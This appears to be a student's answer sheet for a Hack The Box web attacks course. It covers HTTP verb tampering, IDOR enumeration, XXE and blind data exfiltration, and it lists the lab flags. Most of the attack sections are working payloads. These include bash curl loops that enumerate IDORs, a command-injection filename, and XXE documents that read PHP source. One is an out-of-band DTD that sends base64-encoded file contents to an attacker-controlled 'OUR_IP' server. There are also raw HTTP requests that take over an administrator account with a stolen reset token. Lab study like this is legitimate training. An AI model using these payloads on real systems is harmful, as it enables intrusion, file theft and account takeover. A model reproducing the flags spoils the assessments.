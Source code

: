 # Bypassing Basic Authentication

1.  Try to use what you learned in this section to access the 'reset.php' page and delete all files. Once all files are deleted, you should get the flag.

Answer: HTB{4lw4y5_c0v3r_4ll_v3rb5}

Explanation: Simple change the HTTP Verb

# Bypassing Security Filters

1. To get the flag, try to bypass the command injection filter through HTTP Verb Tampering, while using the following filename: file; cp /flag.txt ./

Answer: HTB{b3_v3rb_c0n51573n7}

# Mass IDOR Enumeration

1. Repeat what you learned in this section to get a list of documents of the first 20 user uid's in /documents.php, one of which should have a '.txt' file with the flag.

Answer: HTB{4ll_f1l35_4r3_m1n3}

The code: 

#!/bin/bash

url="http://94.237.54.116:59987/"

for i in {1..20}; do
    for link in $(curl -s -X POST -d "uid=$i" "$url/documents.php" | grep -oP "\/documents.*?\\.\\w+"); do
        curl -O $url/$link
    done
done

# Bypassing Encoded References

Answer: HTB{h45h1n6_1d5_w0n7_570p_m3}

#!/bin/bash

url="http://94.237.50.242:47361/download.php?contract="

for i in {1..20}; do
    for encodedid in $(echo -n $i | base64); do
        curl  "$url$encodedid" 
    done
done

# IDOR in Insecure APIs

1. Try to read the details of the user with 'uid=5'. What is their 'uuid' value?

Explanation: Using the Burp proxy, there is a need to change the HTTP verb from POST to GET. And after that change the profile id in the url path to 5.

# Chaining IDOR Vulnerabilities

1. Try to change the admin's email to 'flag@idor.htb', and you should get the flag on the 'edit profile' page.

Answer: HTB{1_4m_4n_1d0r_m4573r}

Explanation: Send the request to Intruder in Burp Suite and then take a profile from 0 to 50, the 10th response in API got the role=staff_admin.
Then, send the request with PUT method with data used from the Intruder Response. See the flag.


IDOR Prevention:
IDOR caused by the improper access control on the back-end servers. 
1. Object-level access control
2. Secure references for the objects. 

# Local File Disclosure
1.  Try to read the content of the 'connection.php' file, and submit the value of the 'api_key' as the answer.

Answer: UTM1NjM0MmRzJ2dmcTIzND0wMXJnZXdmc2RmCg

Explanation: 
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE email [
  <!ENTITY company SYSTEM "php://filter/convert.base64-encode/resource=connection.php">]>
<root>
<name>Dana</name>
<tel>7780052000</tel>
<email>&company;</email>
<message>I feel this</message>
</root>
```
# Advanced File Disclosure
1. Use either method from this section to read the flag at '/flag.php'. (You may use the CDATA method at '/index.php', or the error-based method at '/error').

Answer: HTB{3rr0r5_c4n_l34k_d474}

Explnation: 

echo '<!ENTITY joined "%begin;%file;%end;">' > xxe.dtd
python3 -m http.server 8000
```
<!DOCTYPE email [
  <!ENTITY % begin "<![CDATA["> <!-- prepend the beginning of the CDATA tag -->
  <!ENTITY % file SYSTEM "file:///flag.php"> <!-- reference external file -->
  <!ENTITY % end "]]>"> <!-- append the end of the CDATA tag -->
  <!ENTITY % xxe SYSTEM "http://IP:8000/xxe.dtd"> <!-- reference our external DTD -->
  %xxe;
]>
```
<email>&joined;</email>

# Blind Data Exfiltration

1. Using Blind Data Exfiltration on the '/blind' page to read the content of '/327a6c4304ad5938eaf0efb6cc3e53dc.php' and get the flag.

Answer: HTB{1_d0n7_n33d_0u7pu7_70_3xf1l7r473_d474}

Explanation: As this is XXE Blind Vulnerability, now the answer shouold be shown in open server on localhost. 
First, create the xml DTD file:

"""
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=<file>.php">
<!ENTITY % oob "<!ENTITY content SYSTEM 'http://OUR_IP:8000/?content=%file;'>">
"""

and then, to decode the shown content that will be in the open server output:
 
php file: index.php

```
<?php
if(isset($_GET['content'])){
    error_log("\n\n" . base64_decode($_GET['content']));
}
?> 
```

php -S 0.0.0.0:8000

The XXE xml payload:
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE email [ 
  <!ENTITY % remote SYSTEM "http://OUR_IP:8000/xxe.dtd">
  %remote;
  %oob;
]>
<root>&content;</root>
```
# Skill Assessment

1. First, there is an api path: GET /api.php/user/74 that is authenticated with given credentials. 
2. with request id 52 the response is {"uid":"52","username":"a.corrales","full_name":"Amor Corrales","company":"Administrator"}
3. Request the /api.php/token/52 - Response: 
{"token":"e51a85fa-17ac-11ec-8e51-e78234eb7b0c"}
4. Request to change the password of the Administrator

PUT /reset.php?uid=52&token=e51a85fa-17ac-11ec-8e51-e78234eb7b0c&password=anne HTTP/1.1
Host: 94.237.59.180:54333
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://94.237.59.180:54333/settings.php
Content-Type: application/x-www-form-urlencoded
Content-Length: 63
Origin: http://94.237.59.180:54333
DNT: 1
Connection: close
Cookie: PHPSESSID=urdfe2mq9af4tjigd118sksob5; uid=74
Sec-GPC: 1

uid=52&token=e51a85fa-17ac-11ec-8e51-e78234eb7b0c&password=anne

5. Login to admin account

6. Request to retrieve the flag with XXE payload:

POST /addEvent.php HTTP/1.1
Host: 94.237.59.180:54333
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://94.237.59.180:54333/event.php
Content-Type: text/plain;charset=UTF-8
Content-Length: 302
Origin: http://94.237.59.180:54333
DNT: 1
Connection: close
Cookie: PHPSESSID=urdfe2mq9af4tjigd118sksob5; uid=52
Sec-GPC: 1
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE email [
    <!ENTITY Test SYSTEM "php://filter/convert.base64-encode/resource=/flag.php">]>
            <root>
            <name>&Test;</name>
            <details>qwerqwer</details>
            <date>2025-02-20</date>
            </root>
```
Answer: HTB{m4573r_w3b_4774ck3r}